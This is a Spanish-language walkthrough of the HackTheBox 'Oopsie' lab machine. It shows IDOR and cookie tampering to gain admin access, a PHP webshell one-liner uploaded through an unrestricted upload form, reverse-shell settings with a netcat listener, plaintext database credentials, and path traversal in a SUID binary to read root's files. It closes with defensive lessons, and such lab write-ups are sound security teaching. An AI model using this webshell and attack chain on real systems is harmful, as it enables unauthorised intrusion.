# HackTheBox — Oopsie 🚗

Writeup / walkthrough de la máquina **Oopsie** de HackTheBox (`MegaCorp Automotive`). El laboratorio recorre una cadena de vulnerabilidades web clásicas: un panel de login expuesto, un **IDOR** (Insecure Direct Object Reference) para escalar de invitado a administrador, una carga de archivos sin validación que permite **RCE** vía webshell, y una escalada final a `root` a través de un binario SUID mal configurado.

---

## 🧰 Herramientas utilizadas

- `nmap` — escaneo de puertos y detección de versiones
- `Burp Suite` + `FoxyProxy` — interceptación y análisis de tráfico HTTP
- Manipulación manual de **cookies** — escalada de privilegios horizontal/vertical (IDOR)
- [revshells.com](https://www.revshells.com/) — generación de reverse shell en PHP (payload PentestMonkey)
- `netcat` — recepción de la conexión reversa
- `python3 -m pty` — estabilización de la shell (TTY)
- Enumeración manual de archivos + `find` — descubrimiento de binario SUID

## 📋 Datos de la máquina

| Campo | Valor |
|---|---|
| IP | `10.129.95.191` |
| Hostname | `oopsie` |
| Plataforma | HackTheBox |

---

## 1. Reconocimiento

### Escaneo con Nmap

```bash
nmap -sC -sV 10.129.95.191
```



**Puertos encontrados:**

| Puerto | Servicio |
|---|---|
| 22 | SSH (OpenSSH 7.6p1) |
| 80 | HTTP (Apache 2.4.29) |

### Sitio web alojado en el puerto 80

Se trata de la página corporativa de **MegaCorp Automotive**:


---

## 2. Descubrimiento del panel de login

Interceptando el tráfico con **Burp Suite** (proxy configurado a través de **FoxyProxy**), se identifica una petición hacia una ruta poco común: `/cdn-cgi/login/script.js`.



Al visitar la ruta padre, se descubre un panel de autenticación:

```
http://10.129.95.191/cdn-cgi/login/
```



### Prueba de credenciales básicas

Se prueban credenciales comunes (`admin`/contraseñas típicas) sin éxito:



El panel ofrece una opción **"Login as Guest"**, la cual permite ingresar sin necesidad de credenciales válidas.

---

## 3. Escalada de privilegios vía IDOR (cookies)

Al inspeccionar las cookies de sesión tras ingresar como invitado, se observan dos valores clave:

```
role: guest
user: 2233
```



### Enumeración de usuarios mediante manipulación de parámetros

Navegando por el panel como invitado, la sección **Clients** revela un parámetro `orgId` en la URL:

```
/cdn-cgi/login/admin.php?content=clients&orgId=2
```



Al intentar acceder a la sección **Uploads**, el sistema responde que la acción requiere permisos de **super administrador**:



Modificando el parámetro de identificación de cuentas (`id`) se logra enumerar otros usuarios del sistema, incluyendo la cuenta administrativa:

```
/cdn-cgi/login/admin.php?content=accounts&id=1
```



```
Access ID: 34322
Name: admin
```

### Suplantación de sesión (Cookie Tampering)

Se modifican manualmente los valores de la cookie de sesión, reemplazándolos por los del usuario `admin` encontrado:

```
role: admin
user: 34322
```



Al recargar la página, se obtiene acceso completo al panel, incluyendo la sección **Uploads**, ahora habilitada para subir archivos.



---

## 4. Explotación — Carga de archivos y RCE

### Prueba de subida de archivo PHP

Se crea un archivo de prueba para verificar si el sistema permite subir archivos con extensión `.php`:

```bash
touch test.php
```



El archivo se sube sin ninguna restricción de extensión:



### Localización del archivo subido

Se identifica que los archivos se almacenan en la carpeta pública `/uploads/`:

```
http://10.129.95.191/uploads/test.php
```



### Prueba de ejecución de código PHP

Se edita el archivo con una instrucción simple para confirmar la ejecución de código en el servidor:

```php
<?php echo "buenos dias"; ?>
```





### Ejecución de comandos del sistema (RCE)

Se reemplaza el contenido por una instrucción que ejecuta comandos arbitrarios a través de un parámetro GET:

```php
<?php system($_GET['execute']); ?>
```



```
http://10.129.95.191/uploads/test.php?execute=whoami
```



✅ Se confirma **ejecución remota de comandos** como el usuario **`www-data`**.

---

## 5. Obtención de shell interactiva

### Generación de la reverse shell

Se utiliza [revshells.com](https://www.revshells.com/) para generar una reverse shell en PHP (payload **PentestMonkey**), configurada con la IP del equipo atacante y el puerto de escucha:

```
IP: 10.10.17.71
Puerto: 4242
```



Se reemplaza el contenido de `test.php` con el payload generado:



### Puesta en escucha y recepción de la shell

```bash
nc -nlvp 4242
```

Al acceder nuevamente a la URL del archivo para disparar la conexión reversa:



> El primer intento arrojó un error de conexión rechazada por no tener el listener activo a tiempo; al volver a ejecutar `nc` antes de recargar la URL, la conexión se establece correctamente.



### Estabilización de la shell (TTY)

Se genera una shell interactiva completa mediante Python:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



Y se ajusta la variable de entorno del terminal para mejorar la compatibilidad (autocompletado, colores, `clear`, etc.):

```bash
export TERM=xterm
```


---

## 6. Movimiento lateral — Credenciales en texto plano

Enumerando los archivos del sitio web, se encuentra el archivo de configuración de la base de datos con credenciales en texto plano:

```bash
cd /var/www/html/cdn-cgi/login
cat db.php
```



```
Usuario: robert
Contraseña: M3g4C0rpUs3r!
```

---

## 7. Escalada de privilegios a root

### Búsqueda de binarios con permisos especiales

Se busca en el sistema qué archivos pertenecen al grupo `bugtracker`, visto previamente entre los procesos/grupos del sistema:

```bash
find / -group bugtracker 2>/dev/null
```



Se localiza el binario **`/usr/bin/bugtracker`**.

### Cambio al usuario robert

Con las credenciales obtenidas de `db.php`, se cambia de usuario:

```bash
su robert
```



### Flag de usuario

```bash
cd ~
cat user.txt
```



### Explotación del binario `bugtracker`

Al ejecutar el binario, este solicita un **Bug ID** y, internamente, ejecuta `cat` sobre una ruta dentro de `/root/reports/` construida a partir de ese ID — sin validar su contenido. Esto permite un **path traversal** para leer archivos arbitrarios fuera de esa carpeta, incluyendo el directorio personal de `root`:

```bash
bugtracker
Provide Bug ID: ../*
```



✅ **Flag de root capturada** — máquina completada.

---

## 📌 Conclusiones

- El panel de administración expuesto en una ruta poco convencional (`/cdn-cgi/login/`) permitía el acceso como invitado sin mayores restricciones, lo cual fue el punto de entrada inicial.
- Un **IDOR** en los parámetros `orgId`/`id` permitió enumerar cuentas del sistema y descubrir el identificador interno del usuario `admin`, el cual pudo suplantarse simplemente **modificando cookies del lado del cliente** — la aplicación confiaba ciegamente en esos valores sin validarlos contra la sesión real en el servidor.
- La funcionalidad de carga de archivos (**Uploads**) no validaba el tipo ni la extensión de los archivos subidos, permitiendo cargar una **webshell PHP** y lograr ejecución remota de comandos (RCE) como `www-data`.
- Un archivo de configuración (`db.php`) con **credenciales en texto plano** permitió el movimiento lateral hacia el usuario `robert`.
- Un binario **SUID/con grupo especial mal configurado** (`bugtracker`) ejecutaba `cat` sobre una ruta construida a partir de una entrada del usuario sin sanitizar, lo que permitió un **path traversal** para leer archivos fuera del directorio previsto y obtener la flag de `root`.
- **Lecciones de seguridad:**
  - Nunca confiar en el **estado o rol de un usuario** almacenado en cookies del lado del cliente; toda autorización debe validarse en el servidor.
  - Implementar controles de acceso por objeto (evitar IDOR) verificando que el usuario autenticado tenga permiso real sobre el recurso solicitado, no solo un ID válido.
  - Restringir estrictamente los tipos de archivo permitidos en funcionalidades de carga (whitelist de extensiones + validación de contenido real del archivo).
  - Nunca almacenar credenciales en texto plano dentro del código fuente accesible por la aplicación.
  - Sanear cualquier entrada de usuario utilizada para construir rutas de archivos, evitando secuencias de *path traversal* (`../`) en binarios con privilegios elevados.

---

## 🏷️ Categoría

`Web Exploitation` · `IDOR` · `File Upload / RCE` · `Cookie Tampering` · `Privilege Escalation` · `Path Traversal` · `HackTheBox`
